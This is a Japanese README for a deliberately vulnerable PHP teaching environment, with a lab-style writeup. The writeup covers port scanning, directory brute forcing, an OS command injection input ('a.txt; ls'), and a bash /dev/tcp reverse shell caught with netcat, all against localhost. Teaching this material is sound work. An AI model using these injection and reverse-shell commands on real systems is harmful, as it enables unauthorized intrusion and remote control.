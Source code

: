 # vulnable_sample
ツールの使い方を簡単に実践するための簡単な環境．教材開発のサンプルプログラムの１つ
## 使い方
### 簡単な実行の仕方(実環境では絶対に行わないように)
```php -S localhost:8080```
## Writeup
ポートスキャン  
```
nmap -p- localhost
> 8080/tcp closed http-proxy
```
ディレクトリブルートフォース　　
```
dirb http://localhost /usr/share/wordlists/dirb/common.txt
> + http://localhost:8080/command (CODE:200|SIZE:434)                       
> + http://localhost:8080/robots.txt (CODE:200|SIZE:32)
```
web調査
ブラウザでhttp://localhost:8080を開くと空ページ  
robots.txtを確認するとcommandというページがある事がわかる  
/commandにアクセスするとOpen Fileというページ  
ソースコードを見るとサイトの使い方が書いている  

エクスプロイト
```
OSコマンドインジェクションを行える
a.txt; ls
でlsコマンドが実行できる
```
リバースシェル  
(環境によって実行できない場合があるためその際は"Reverse Shell Cheat Sheet"などで調べるとPythonを使う方法やJavaを使う方法などさまざな方法が見つけられるので参考にしてください．)
```
# 手元のPCで実行
nc -nvlp 1234
```
```
# 対象のPCに対して
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```
---
以上の流れでサーバのIPアドレスだけからWebページが空いている事を見つけて，攻撃に繋げる一連の流れの簡単な例を試してみる事ができます

